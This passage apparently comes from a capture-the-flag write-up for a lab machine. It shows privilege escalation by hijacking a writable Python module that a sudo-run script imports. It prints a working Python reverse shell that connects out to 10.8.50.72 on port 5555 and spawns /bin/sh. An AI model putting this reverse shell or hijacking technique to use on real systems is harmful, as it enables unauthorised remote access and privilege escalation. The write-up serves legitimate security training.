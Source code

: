 We can run the following script as `will`:

```python
mat@watcher:~$ cat /home/mat/scripts/will_script.py
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
	print("Invalid command!")
	exit()

os.system(cmd)
```

The above scripts includes the below function, from the `cmd.py` script:

```python
mat@watcher:~/scripts$ cat cmd.py
def get_command(num):
	if(num == "1"):
		return "ls -lah"
	if(num == "2"):
		return "id"
	if(num == "3"):
		return "cat /etc/passwd"
```

As we have write access to the `cmd.py` script, let's insert a python reverse shell:

```python
mat@watcher:~/scripts$ cat cmd.py
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.50.72",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

def get_command(num):
    if(num == "1"):
        return "ls -lah"
    if(num == "2"):
        return "id"
    if(num == "3"):
        return "cat /etc/passwd"
```

And now, call the main script as `will` with `sudo`:
